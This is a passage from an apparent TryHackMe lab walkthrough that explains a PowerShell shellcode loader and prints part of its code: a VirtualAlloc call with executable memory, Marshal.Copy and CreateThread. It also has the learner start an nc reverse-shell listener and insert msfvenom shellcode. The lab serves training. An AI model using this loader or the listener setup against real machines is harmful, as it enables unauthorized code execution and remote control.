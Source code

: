 **Allocating Memory for the Shellcode**

The `VirtualAlloc` function then allocates a block of memory where the shellcode will be stored. The script uses the following arguments:

- `0` for the memory address, meaning that Windows will decide where to allocate the memory.
- `$size` for the size of the memory block, which is determined by the length of the shellcode.
- `0x3000` for the allocation type, which tells Windows to reserve and commit the memory.
- `0x40` for memory protection, the memory is readable and executable (necessary for executing shellcode).

After memory is allocated, the `Marshal.Copy` function copies the shellcode from the `$buf` array into the allocated memory address (`$addr`), preparing it for execution.

**Executing the Shellcode and Waiting for Completion**

Once the shellcode is stored in memory, the script calls the `CreateThread` function to execute the shellcode by creating a new thread. This thread is instructed to start execution from the memory address where the shellcode is located (`$addr`). The script then uses the `WaitForSingleObject` function, ensuring it waits for the shellcode execution to finish before continuing. This makes sure that the shellcode runs completely before the script ends its execution.

## Time for Some Action - Executing the Shellcode

On the AttackBox, execute the command `nc -nvlp 1111` to start a listener on port `1111` and wait for an incoming connection. This command opens port `1111` and listens for connections, allowing the AttackBox to receive data once a connection is made.

AttackBox Terminal

```shell
root@attackbox:~# nc -nvlp 1111 
Listening on [0.0.0.0] (family 0, port 1111) 
```

On the AttackBox, begin by navigating to the Desktop. Right-click on the `Desktop`, select `Create Document`, and then choose `Empty File`. Open this new file and paste the previously provided PowerShell script code into it. Look for the part labelled `SHELLCODE_PLACEHOLDER` and replace it with the shell code we previously created with `msfvenom`.

![creating new file sand saving shellcode](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1732683410058.png)  

Once you've added the shellcode navigate to the attached VM, open PowerShell by clicking the PowerShell icon on the taskbar and paste parts of the code from the document you recently created to the Windows PowerShell window. For example, the first part to copy and paste is the block below:

```shell
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
```